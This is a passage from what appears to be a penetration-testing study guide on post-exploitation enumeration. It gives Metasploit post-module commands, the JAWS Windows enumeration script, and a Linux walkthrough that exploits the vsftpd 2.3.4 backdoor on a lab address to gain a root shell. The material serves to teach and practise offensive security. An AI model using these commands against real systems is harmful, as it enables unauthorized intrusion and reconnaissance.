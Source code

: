 <figure><img src="../../.gitbook/assets/125.png" alt=""><figcaption></figcaption></figure>

**enum\_patches**

```bash
msf6> use post/windows/gather/enum_patches
msf6> set session 1
msf6> run
```

<figure><img src="../../.gitbook/assets/126.png" alt=""><figcaption></figcaption></figure>

**enum\_shares**

```bash
msf6> use post/windows/gather/enum_shares
msf6> set session 1
msf6> run
```

<figure><img src="../../.gitbook/assets/127.png" alt=""><figcaption></figcaption></figure>

**JAWS**

```powershell
PS> git clone https://github.com/411Hall/JAWS.git
PS> cd JAWS
PS> .\jaws-enum.ps1
```

### Linux local enumeration

#### System information

After gaining initial access to a target system, it is always important to learn more about the system like, what OS is running as well as the OS version. This information is very useful as it gives us an idea of what we can do and what type of exploits we can run.

What are we looking for?

* Hostname
* Distribution & distribution release version
* Kernel version & architecture
* CPU information
* Disk information & mounted drives
* Installed packages/software

```bash
kali@kali> nmap -sV 192.8.246.3
kali@kali> msfconsole

msf6> setg rhosts 192.8.246.3
msf6> use exploit/unix/ftp/vsftpd_234_backdoor
msf6> run

# CTRL+Z

msf6> sessions -u 1
msf6> sessions 2

meterpreter> shell
/bin/bash -i
root@victim> hostname
```
